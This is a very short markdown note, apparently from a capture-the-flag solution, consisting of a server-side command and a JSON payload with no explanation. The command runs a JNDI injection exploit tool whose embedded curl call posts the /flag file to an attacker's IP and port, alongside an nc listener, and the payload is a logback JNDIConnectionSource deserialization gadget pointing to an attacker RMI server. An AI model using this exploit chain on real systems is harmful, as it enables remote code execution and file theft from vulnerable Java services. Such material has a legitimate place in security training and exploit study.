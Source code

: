 # 服务器
```shell
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C 'curl http://IP:PORT -File=@/flag' -A "IP"

nc -lvvp PORT

```

# payload

```json
["ch.qos.logback.core.db.JNDIConnectionSource",{"jndiLocation":"rmi://IP:1099/6dzonl"}]
```

